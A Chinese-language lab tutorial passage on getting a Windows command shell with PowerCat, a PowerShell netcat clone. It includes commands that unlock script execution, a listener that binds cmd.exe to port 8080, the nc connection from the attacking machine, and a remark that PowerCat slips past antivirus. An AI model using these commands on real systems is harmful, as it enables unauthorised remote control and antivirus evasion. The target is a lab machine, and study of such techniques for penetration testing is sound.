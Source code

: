 ### powercat反弹shell

```
PowerCat是一个powershell写的tcp/ip瑞士军刀，看一看ncat的powershell的实现，然后里面也加入了众多好用的功能，如文件上传，smb协议支持，中继模式，生成payload，端口扫描等等。而一般情况下windows上传ncat工具会被杀软干掉，而powercat由于是ps脚本不容易被杀软直接干掉。
```

```
首先给win7靶机设置允许导入ps脚本的配置。并导入ps脚本。
Set-ExecutionPolicy Unrestricted
Import-Module .\powercat.ps1
```

![image-20241019231511882](内网隧道代理技术/image-20241019231511882.png)	

![image-20241019231557339](内网隧道代理技术/image-20241019231557339.png)	

```
首先使用win7靶机和攻击机进行正向反弹shell连接。
靶机监听8080端口，当被攻击机连接，会把cmd窗口反弹攻击机
powercat -l -p 8080 -e cmd.exe -v
```

![image-20241019231719863](内网隧道代理技术/image-20241019231719863.png)	

```
攻击机使用nc执行命令。
nc64.exe 192.168.15.115 8080 -vv
```
